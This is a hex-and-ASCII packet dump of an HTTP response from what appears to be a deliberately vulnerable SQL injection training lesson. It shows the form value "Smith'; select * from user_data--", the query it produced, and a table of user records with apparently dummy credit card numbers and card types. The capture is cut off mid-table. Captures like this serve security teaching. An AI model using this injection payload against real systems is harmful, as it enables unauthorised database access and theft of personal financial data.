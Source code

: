 	0x0580:  6574 7572 6e20 746f 2074 6865 2069 6e6a  eturn.to.the.inj
	0x0590:  6563 7461 626c 6520 7175 6572 792e 3c2f  ectable.query.</
	0x05a0:  6469 763e 0a0a 0a3c 6469 7620 6964 3d22  div>...<div.id="
	0x05b0:  6c65 7373 6f6e 436f 6e74 656e 7422 3e3c  lessonContent"><
	0x05c0:  666f 726d 2061 6363 6570 742d 6368 6172  form.accept-char
	0x05d0:  7365 743d 2755 4e4b 4e4f 574e 2720 6d65  set='UNKNOWN'.me
	0x05e0:  7468 6f64 3d27 504f 5354 2720 6e61 6d65  thod='POST'.name
	0x05f0:  3d27 666f 726d 2720 6163 7469 6f6e 3d27  ='form'.action='
	0x0600:  2361 7474 6163 6b2f 3533 3833 3835 3436  #attack/53838546
	0x0610:  342f 3131 3030 2720 656e 6374 7970 653d  4/1100'.enctype=
	0x0620:  2727 3e3c 703e 456e 7465 7220 796f 7572  ''><p>Enter.your
	0x0630:  206c 6173 7420 6e61 6d65 3a3c 696e 7075  .last.name:<inpu
	0x0640:  7420 6e61 6d65 3d27 6163 636f 756e 745f  t.name='account_
	0x0650:  6e61 6d65 2720 7479 7065 3d27 5445 5854  name'.type='TEXT
	0x0660:  2720 7661 6c75 653d 2253 6d69 7468 273b  '.value="Smith';
	0x0670:  2073 656c 6563 7420 2a20 6672 6f6d 2075  .select.*.from.u
	0x0680:  7365 725f 6461 7461 2d2d 223e 3c69 6e70  ser_data--"><inp
	0x0690:  7574 206e 616d 653d 2753 5542 4d49 5427  ut.name='SUBMIT'
	0x06a0:  2074 7970 653d 2753 5542 4d49 5427 2076  .type='SUBMIT'.v
	0x06b0:  616c 7565 3d27 476f 2127 3e3c 7072 653e  alue='Go!'><pre>
	0x06c0:  5345 4c45 4354 202a 2046 524f 4d20 7573  SELECT.*.FROM.us
	0x06d0:  6572 5f64 6174 6120 5748 4552 4520 6c61  er_data.WHERE.la
	0x06e0:  7374 5f6e 616d 6520 3d20 2753 6d69 7468  st_name.=.'Smith
	0x06f0:  273b 2073 656c 6563 7420 2a20 6672 6f6d  ';.select.*.from
	0x0700:  2075 7365 725f 6461 7461 2d2d 273c 2f70  .user_data--'</p
	0x0710:  7265 3e3c 7461 626c 6520 6365 6c6c 7061  re><table.cellpa
	0x0720:  6464 696e 673d 2731 2720 626f 7264 6572  dding='1'.border
	0x0730:  3d27 3127 3e3c 7472 3e3c 7464 3e3c 623e  ='1'><tr><td><b>
	0x0740:  5553 4552 4944 3c2f 623e 3c2f 7464 3e3c  USERID</b></td><
	0x0750:  7464 3e3c 623e 4649 5253 545f 4e41 4d45  td><b>FIRST_NAME
	0x0760:  3c2f 623e 3c2f 7464 3e3c 7464 3e3c 623e  </b></td><td><b>
	0x0770:  4c41 5354 5f4e 414d 453c 2f62 3e3c 2f74  LAST_NAME</b></t
	0x0780:  643e 3c74 643e 3c62 3e43 435f 4e55 4d42  d><td><b>CC_NUMB
	0x0790:  4552 3c2f 623e 3c2f 7464 3e3c 7464 3e3c  ER</b></td><td><
	0x07a0:  623e 4343 5f54 5950 453c 2f62 3e3c 2f74  b>CC_TYPE</b></t
	0x07b0:  643e 3c74 643e 3c62 3e43 4f4f 4b49 453c  d><td><b>COOKIE<
	0x07c0:  2f62 3e3c 2f74 643e 3c74 643e 3c62 3e4c  /b></td><td><b>L
	0x07d0:  4f47 494e 5f43 4f55 4e54 3c2f 623e 3c2f  OGIN_COUNT</b></
	0x07e0:  7464 3e3c 2f74 723e 3c74 723e 3c74 643e  td></tr><tr><td>
	0x07f0:  3130 313c 2f74 643e 3c74 643e 4a6f 653c  101</td><td>Joe<
	0x0800:  2f74 643e 3c74 643e 536e 6f77 3c2f 7464  /td><td>Snow</td
	0x0810:  3e3c 7464 3e39 3837 3635 3433 3231 3c2f  ><td>987654321</
	0x0820:  7464 3e3c 7464 3e56 4953 413c 2f74 643e  td><td>VISA</td>
	0x0830:  3c74 643e 266e 6273 703b 3c2f 7464 3e3c  <td>&nbsp;</td><
	0x0840:  7464 3e30 3c2f 7464 3e3c 2f74 723e 3c74  td>0</td></tr><t
	0x0850:  723e 3c74 643e 3130 313c 2f74 643e 3c74  r><td>101</td><t
	0x0860:  643e 4a6f 653c 2f74 643e 3c74 643e 536e  d>Joe</td><td>Sn
	0x0870:  6f77 3c2f 7464 3e3c 7464 3e32 3233 3432  ow</td><td>22342
	0x0880:  3030 3036 3534 3131 3c2f 7464 3e3c 7464  00065411</td><td
	0x0890:  3e4d 433c 2f74 643e 3c74 643e 266e 6273  >MC</td><td>&nbs
	0x08a0:  703b 3c2f 7464 3e3c 7464 3e30 3c2f 7464  p;</td><td>0</td
	0x08b0:  3e3c 2f74 723e 3c74 723e 3c74 643e 3130  ></tr><tr><td>10
	0x08c0:  323c 2f74 643e 3c74 643e 4a6f 686e 3c2f  2</td><td>John</
	0x08d0:  7464 3e3c 7464 3e53 6d69 7468 3c2f 7464  td><td>Smith</td
	0x08e0:  3e3c 7464 3e32 3433 3536 3030 3030 3232  ><td>24356000022
	0x08f0:  3232 3c2f 7464 3e3c 7464 3e4d 433c 2f74  22</td><td>MC</t
	0x0900:  643e 3c74 643e 266e 6273 703b 3c2f 7464  d><td>&nbsp;</td
	0x0910:  3e3c 7464 3e30 3c2f 7464 3e3c 2f74 723e  ><td>0</td></tr>
	0x0920:  3c74 723e 3c74 643e 3130 323c 2f74 643e  <tr><td>102</td>
	0x0930:  3c74 643e 4a6f 686e 3c2f 7464 3e3c 7464  <td>John</td><td
	0x0940:  3e53 6d69 7468 3c2f 7464 3e3c 7464 3e34  >Smith</td><td>4
	0x0950:  3335 3232 3039 3930 3232 3232 3c2f 7464  352209902222</td
	0x0960:  3e3c 7464 3e41 4d45 583c 2f74 643e 3c74  ><td>AMEX</td><t
	0x0970:  643e 266e 6273 703b 3c2f 7464 3e3c 7464  d>&nbsp;</td><td